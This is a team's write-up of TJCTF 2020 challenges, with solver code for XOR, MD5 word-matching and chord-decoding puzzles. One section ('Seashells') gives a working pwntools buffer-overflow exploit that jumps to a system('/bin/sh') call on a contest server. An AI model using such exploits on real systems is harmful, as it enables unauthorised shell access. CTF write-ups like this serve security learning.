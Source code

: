 # TJCTF 2020

A very nice ctf, StarLabs managed to get 1050 points. I have included some of the writeups here.

### Is this crypto ?

XOR each character with a number to get to range of ASCII.

``` python
a = "Òãèáåþöãðáùè±øâ±ð±õøâòøáýøÿô±åùðå±ùðâ±óôôÿ±ðãþäÿõ±÷þã±àäøåô±ð±ýþÿö±åøüô½±óäå±øÿ±ãôòôÿå±åøüôâ±øå±ùðâ±âôôÿ±ðÿ±ôéáýþâøþÿ±þ÷±ãôâôðãòù±ðÿõ±øüáýôüôÿåðåøþÿ¿±Åùøâ±õøâòøáýøÿô±âôôúâ±åþ±áãþçøõô±âôòäãô±òþüüäÿøòðåøþÿ±ðÿõ±âùðãôõ±õðåð±âåþãðöô±äâøÿö±áäóýøò±úôè±òãèáåþöãðáùè½±æùøòù±ôââôÿåøðýýè±ãôõäòôâ±åùô±õðüðöô±åùðå±òðÿ±óô±õþÿô±åùãþäöù±ôÿòãèáåøþÿ¿››åûòå÷êÿ¡Îåù ¤ÎøâÎúèý¢ì››Åùô±Õðåð±Òôÿåãô±Âåðÿõðãõ±÷þã±Òþÿ÷øõôÿåøðýøåè±ðÿõ±Øÿåôöãøåè±âåðåôâ±åùðå±ð±òþüáäåôã±âèâåôü±üäâå±ÿþå±òþÿåðøÿ±ðÿè±øÿ÷þãüðåøþÿ±åùðå±òðÿÿþå±óô±áãþçøõôõ±ðå±åùô±åøüô±þ÷±ãôàäôâåøÿö±øå¿±Åùô±áäãáþâô±þ÷±åùøâ±âåðÿõðãõ±øâ±åþ±ôÿâäãô±åùðå±ÿþ±õðåð±÷ãþü±ð±òþÿÿôòåôõ±òþüáäåôã±âèâåôü±òðÿ±óô±ðòòôââôõ±óè±ðÿ±äÿðäåùþãøâôõ±áðãåè¿±Åùøâ±æþäýõ±ðýýþæ±äâôãâ±åþ±áãþåôòå±åùôøã±õðåð±ðÿõ±üðúô±åùôøã±áôãâþÿðý±øÿ÷þãüðåøþÿ±âôòäãô½±æùøòù±øâ±üþãô±øüáþãåðÿå±åùðÿ±ôçôã¿"
for i in range(256):
	x = ''.join(list(map(chr, list(map(lambda x: ord(x)^i , a)))))
	if 'tjctf' in x:
		print(i)
		print(x)
# tjctf{n0_th15_is_kyl3}
```

### Titanic

Wrap a lowercase word from a sentence that had been in said in the movie Titanic (1997) and match it with a given md5 hash to get the flag.
I downloaded subtitles of the movie from the internet, and removed the full stop.

``` python
import re
with open('titanic.txt') as h:
	w = h.read()
	w = re.sub(r'[.]*',r'',w)
	w = w.lower()
	w = w.split()
import hashlib
hashlist = []
for word in w:
	word = 'tjctf{' + word + '}'
	hashes = hashlib.md5(word.encode()).hexdigest()
	if hashes == '9326ea0931baf5786cde7f280f965ebb':
		print(word)
		break
		# tjctf{marlborough's}
```

### Seashells

Given a binary, we can overflow the gets function to jump to the system() call in the shell function.
```c
int main() {
    setbuf(*stdout@@GLIBC_2.2.5, 0x0);
    setbuf(*stdin@@GLIBC_2.2.5, 0x0);
    setbuf(*stderr@@GLIBC_2.2.5, 0x0);
    puts("Welcome to Sally's Seashore Shell Shop");
    puts("Would you like a shell?");
    gets(&var_A);
    rax = strcasecmp(&var_A, 0x40086f);
    if (rax != 0x0) {
            puts("why are you even here?");
    }
    else {
            puts("sorry, we are out of stock");
    }
    return 0x0;
}
```

```c
int shell(int arg0) {
    rax = 0xdeadcafebabebeef;
    if (arg0 == rax) {
            rax = system("/bin/sh");
    }
    return rax;
}
```

```python
from pwn import *
binsh = 0x4006E3
_r = 0xA+8
r = remote('p1.tjctf.org', 8009)
r.sendlineafter('?\n', _r*b'A' + p64(binsh))
r.interactive()
```


### Chord encoder

So someone has encoded each character of his song with a chord. We can decode this, we know what each character would look like in a chord.txt (list type object "chord" in the code). What we can do is, we can made a empty variable and keep trying all the printable characters (from the hint) and if it matches, we can add it to a variable flag. There was one issue with this code that, I had to replace "M" with underscore, as they both end with same number (0 afaik remember) and same with "D".

```python
import string
chord = ["A 0112",
"B 2110",
"C 1012",
"D 020",
"E 0200",
"F 1121",
"G 001",
"a 0122",
"b 2100",
"c 1002",
"d 010",
"e 0100",
"f 1011",
"g 000"
]
l = {'1':'A', '2':'B', '3':'C', '4':'D', '5':'E', '6':'F', '7':'G'}
chords = {}
for i in chord:
	c, n = i.strip().split()
	chords[c] = n
def solve():
	s_flag = "1121112111211002112101121121001001210000101221121011200102000110120200101100100111211011001020020010111012011202001011112110121121011211211002112110020200101111210112020010111121010112102001121100211211011020020001010"
	song_so_far = "flag{zats_wot_1_call_a_me"
	alphabets = string.printable
	while 1:
		for alphabet in alphabets:
			flag = 0
			flag2 = 0
			trying_song = song_so_far + alphabet
			print(f"Trying {trying_song}")
			s = ''
			for i in trying_song:
				c1, c2 = hex(ord(i))[2:]
				# num = 0xab, c1 = a, c2 = b
				if c1 in l:
					c1 = l[c1]
				if c2 in l:
					c2 = l[c2]
				try:
					s += chords[c1] + chords[c2]
				except KeyError as e:
					flag = 1
            if flag != 1 :
                if s_flag.startswith(s):
                    song_so_far += alphabet
                    print(f'Song so far : {song_so_far}')
                    print(s)
                    print(s_flag)
                    break
solve()
# flag{zats_wot_1_call_a_meloD}
```